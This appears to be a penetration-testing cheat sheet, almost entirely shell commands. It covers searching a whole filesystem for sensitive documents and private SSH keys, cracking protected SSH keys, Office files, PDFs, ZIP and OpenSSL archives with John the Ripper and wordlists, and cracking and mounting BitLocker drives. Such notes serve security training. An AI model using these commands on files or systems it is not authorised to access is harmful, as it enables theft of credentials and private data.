 # File Hunting and Encrypted Data Attacks

Techniques for locating sensitive files and attacking encrypted data such as SSH keys, documents, archives, and drives.

---

## Hunting for Encrypted Files

Use `find` and `grep` to identify files that may contain secrets.

```bash
# Search for common encrypted file extensions
for ext in $(echo ".xls .xls* .xltx .od* .doc .doc* .pdf .pot .pot* .pp*"); do
  echo -e "\nFile extension: $ext"
  find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done

# Search for SSH keys by header
grep -rnE '^\-{5}BEGIN [A-Z0-9]+ PRIVATE KEY\-{5}$' /* 2>/dev/null

# Check if an SSH key is encrypted
ssh-keygen -yf ~/.ssh/id_ed25519
```

---

## Cracking Encrypted SSH Keys

```bash
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```

---

## Password-Protected Documents

```bash
# Office documents
office2john.py Protected.docx > protected-docx.hash
john --wordlist=rockyou.txt protected-docx.hash
john protected-docx.hash --show

# PDF files
pdf2john.py PDF.pdf > pdf.hash
```

---

## Protected Archives

```bash
# Convert ZIP to hash
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
john zip.hash --show
```

```bash
# Crack OpenSSL encrypted GZIP files
file GZIP.gzip
# GZIP.gzip: openssl enc'd data with salted password

for i in $(cat rockyou.txt); do
  openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null | tar xz
done
```

---

## BitLocker-Encrypted Drives

```bash
# Extract BitLocker hash
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash

# Crack with hashcat
hashcat -a 0 -m 22100 backup.hash /usr/share/wordlists/rockyou.txt
```

### Mounting BitLocker in Linux

```bash
# Install dislocker
sudo apt-get install dislocker

# Prepare folders
sudo mkdir -p /media/bitlocker /media/bitlockermount

# Map VHD to loop device and decrypt with dislocker
sudo losetup -f -P Backup.vhd
sudo dislocker /dev/loop0p2 -u<PASSWD> -- /media/bitlocker

# Mount and unmount
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
sudo umount /media/bitlockermount
sudo umount /media/bitlocker
```
